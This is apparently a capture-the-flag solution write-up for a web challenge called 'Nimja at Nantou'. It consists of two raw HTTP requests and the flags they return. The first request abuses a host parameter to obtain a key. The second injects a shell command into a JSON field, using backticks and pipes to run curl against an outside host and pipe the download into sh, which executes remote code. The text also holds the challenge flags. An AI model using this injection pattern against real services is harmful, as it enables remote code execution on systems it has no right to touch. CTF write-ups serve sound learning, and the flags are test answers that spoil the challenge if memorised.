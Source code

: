 # Nimja at Nantou

```
POST /hello-from-the-world/get_hello?host=http://localhost/%23 HTTP/1.1
Host: xxx
Connection: close
Content-Length: 0

```
->
`T$J_CTF_15_FUN_>_<_bY_Th3_wAy_IT_is_tHE_KEEEEEEEY_n0t_THE_flag`

```
POST /service-info//admin HTTP/1.1
Host: xxx
Connection: close
Content-Length: 114

{"service":["|`curl kaibro.tw/yy|sh`|"],"key": "T$J_CTF_15_FUN_>_<_bY_Th3_wAy_IT_is_tHE_KEEEEEEEY_n0t_THE_flag"}
```
->
`TSJ{HR5_1S_C001_XD_L3ts_gooooo}`
